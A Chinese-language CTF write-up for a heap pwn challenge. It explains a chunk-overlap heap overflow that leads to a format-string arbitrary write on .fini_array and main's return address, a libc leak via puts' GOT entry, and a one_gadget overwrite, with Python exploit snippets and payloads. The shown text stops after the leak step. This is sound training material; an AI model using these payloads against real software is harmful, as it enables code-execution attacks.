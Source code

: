 ### 思路：

1. extend chunk造成overlap，利用格式化字符串实现任意地址读写。
2. **前后两次返回值**修改：
   * 第一次：**修改fini_array中的地址**，使得程序第一次执行完后能再次执行main函数。
   * 第二次：**修改main函数返回值地址**，借助第一次泄漏的栈地址，计算其到main函数返回值的偏移，用one_gadget地址覆盖掉。

### 分析：

1. 程序执行生成了3个chunk：

   ![image-20240717182502416](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407171825503.png)

2. 只能修改和删除其中两个chunk，修改时存在堆溢出：

   ![image-20240717182552238](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407171825322.png)

   ![image-20240717182612676](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407171826750.png)

3. 最后又一个格式化字符串的漏洞，只有这个漏洞能实现任意地址读写，所以主要利用这个漏洞：

   ![image-20240717182714407](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407171827467.png)

4. 但是格式化字符串不能直接修改，但是dest格式化字符串在堆上，而且在book2的后面，所以可以考虑**修改dest的size字段为0x151**，在**submit时会重新申请到修改的chunk**，**实现overlaping**，这样就能控制dest的值了。

### 利用：

1. 先利用chunk1堆溢出修改chunk的size字段为0x151，再free掉：

   ```python
   payload1 = b"a"*0x88+p64(0x151)
   edit(1,payload1)
   free(4)
   ```



2. 构造格式化字符串，泄漏put函数got表值计算libc基地址，泄漏第二次的**main函数返回值存放的地址**：

   ```python
   payload1 = b'%2617c%13$hn'  #修改返回地址，再次进入main函数
   payload1 += b".%14$s"       #泄漏libc
   payload1 += b",%32$p"       #泄漏第二次的main函数返回值存放的地址
   payload1 += b"M"*(0x74-len(payload1))
   edit(1,payload1)
   
   # 改变fini_array的值,再次执行程序
   payload3 = b'5'+b'a'*7 + p64(fini_addr) + p64(elf.got["puts"])    #这里是为了在栈上写入.fini_array的地址,再格式化字符串栈上的第13个位置
   submit(payload3)
   
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   success("puts_addr==>"+hex(addr))
   libc_base = addr - libc.symbols["puts"]
   success("libc_base==>"+hex(libc_base))
   one_gadget_addr = libc_base + one_gadget
   success("one_gadget_addr==>"+hex(one_gadget_addr))
   
   p.recvuntil(b",0x")
   ret_addr = int(p.recv()[0:12],16)-0xf8	#调试后计算他们之间的相对偏移
   success("ret_addr==>"+hex(ret_addr))
   ```
